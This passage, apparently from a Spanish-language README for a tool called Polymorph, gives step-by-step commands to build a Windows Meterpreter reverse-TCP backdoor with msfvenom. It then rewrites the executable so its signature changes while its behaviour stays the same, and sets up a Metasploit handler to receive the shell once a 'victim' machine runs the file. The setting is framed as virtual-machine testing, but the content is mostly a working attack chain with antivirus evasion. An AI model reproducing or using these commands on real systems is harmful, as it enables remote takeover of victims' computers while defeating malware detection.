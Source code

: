 #### 🔐 Paso 3: Verifica el script principal

El archivo principal es:

```bash
polymorph.py
```

Puedes ver su ayuda con:

```bash
python3 polymorph.py -h
```

---

### 🔬 Ejemplo: Aplicar polimorfismo a un payload malicioso

Supongamos que has creado un ejecutable con Metasploit:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f exe -o backdoor.exe
```

Ahora lo quieres transformar con Polymorph:

```bash
python3 polymorph.py -i backdoor.exe -o backdoor_poly.exe
```

Esto crea un nuevo archivo `backdoor_poly.exe` con cambios en el código binario para que tenga una **firma completamente distinta**, pero **mantenga el mismo comportamiento**.

---

### 🧪 Pruebas con máquinas virtuales

#### 🖥️ 1. Kali Linux

- Instala y ejecuta Polymorph
- Genera el payload polimórfico
- Configura Metasploit para recibir la conexión:

```bash
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.1.10
set LPORT 4444
run
```

#### 🖥️ 2. Windows (máquina víctima)

- Ejecuta el archivo `backdoor_poly.exe`
- Observa en Kali que se abre una sesión Meterpreter

---
